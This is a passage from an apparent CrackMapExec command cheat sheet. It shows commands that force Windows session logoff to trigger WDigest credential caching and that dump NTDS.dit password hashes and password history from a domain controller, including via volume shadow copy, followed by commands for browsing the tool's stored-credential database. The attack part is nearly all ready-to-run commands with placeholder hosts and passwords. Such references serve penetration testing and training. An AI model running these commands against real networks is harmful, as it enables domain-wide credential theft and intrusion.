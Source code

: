 ### Force Logoff to Trigger WDigest
```bash
crackmapexec smb 192.168.215.104 -u 'Administrator' -p 'PASS' -x 'quser'
crackmapexec smb 192.168.215.104 -u 'Administrator' -p 'PASS' -x 'logoff <sessionid>'
```

### Dump NTDS.dit (Domain Controller)
```bash
crackmapexec smb 192.168.1.100 -u UserNAme -p 'PASSWORDHERE' --ntds
```

### Dump NTDS.dit via Volume Shadow Copy
```bash
crackmapexec smb 192.168.1.100 -u UserNAme -p 'PASSWORDHERE' --ntds vss
```

### Dump NTDS.dit Password History
```bash
crackmapexec smb 192.168.1.0/24 -u UserNAme -p 'PASSWORDHERE' --ntds-history
```

## Using the Database

CME automatically stores hosts and credentials in a database (cmedb).

### Access Database
```bash
$ cmedb
```

### Create and Switch Workspaces
```bash
cmedb> workspace create test
cmedb> workspace test
```

### Access Protocol Database
```bash
cmedb (test)> proto smb
cmedb (test)> back
```

### List Hosts
```bash
cmedb> hosts
```

### Detailed Host Info
```bash
cmedb> hosts <hostname>
```

